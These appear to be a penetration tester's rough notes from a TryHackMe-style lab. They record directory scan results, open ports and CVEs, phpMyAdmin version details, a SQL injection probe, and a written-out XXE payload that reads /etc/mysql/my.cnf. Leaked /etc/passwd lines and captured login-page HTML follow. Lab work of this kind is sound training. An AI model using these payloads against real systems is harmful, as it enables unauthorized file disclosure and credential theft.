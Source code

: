 
paths:
	/images               (Status: 301) [Size: 311] [--> http://10.10.95.95/images/]
	/assets               (Status: 301) [Size: 311] [--> http://10.10.95.95/assets/]
	/css                  (Status: 301) [Size: 308] [--> http://10.10.95.95/css/]
	/javascript           (Status: 301) [Size: 315] [--> http://10.10.95.95/javascript/]
	/CHANGELOG            (Status: 200) [Size: 832]
	/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.95.95/phpmyadmin/]
	/wishes               (Status: 403) [Size: 2260]
	/info (unexplored) use XXE
	
ports:
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
CVE-2022-28615
CVE-2022-23943
CVE-2022-22721	


cms: phpmyadmin - login page - mysql

**
casues error i think - GET /product.php?id=-999.9 UNION 
data mining - /var/www/html/index.js
**

 mysqli_real_connect(): (HY000/1045): Access denied for user '''@'localhost' (using password: YES)
phpmyadmin/",arg_separator:"&",PMA_VERSION:"4.9.5deb2",auth_type:"cookie",user:"root"});
Welcome to the release of phpMyAdmin version 4.9.5. This is a security release containing several bug fixes.

Changes this version: 4.9.5
* PMASA-2020-2 SQL injection vulnerability in the user accounts page, particularly when changing a password
* PMASA-2020-3 SQL injection vulnerability relating to the search feature
* PMASA-2020-4 SQL injection and XSS having to do with displaying results
* Removing of the "options" field for the external transformation.

https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=phpmyadmin

plan:
Use XXE vulnerability to maybe dump mysql db file?
find default path of phpmyadmin mysql db file.
Create XXE payload with said path.

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/mysql/my.cnf"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>

Users with shells:
root
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash

login-source:
<div class="hide" id="js-https-mismatch">
<div class="error"><img src="themes/dot.gif" title="" alt="" class="icon ic_s_error" /> There is mismatch between HTTPS indicated on the server and client. This can lead to non working phpMyAdmin or a security risk. Please fix your server configuration to indicate HTTPS properly.</div>
</div>
<div class='hide js-show'>    <form method="get" action="index.php" class="disableAjax">
    <input type="hidden" name="db" value="" /><input type="hidden" name="table" value="" /><input type="hidden" name="lang" value="en" /><input type="hidden" name="token" value="5824667d79682762423d497974414841" />

<!-- Login form -->
        <fieldset>
        <legend><input type="hidden" name="set_session" value="hpieo39ml0tqbv01gl7r6en65t" />Log in<a href="./doc/html/index.html" target="documentation"><img src="themes/dot.gif" title="Documentation" alt="Documentation" class="icon ic_b_help" /></a></legend><div class="item">
                <label for="input_username">Username:</label>
                <input type="text" name="pma_username" id="input_username" value="" size="24" class="textfield"/>
            </div>
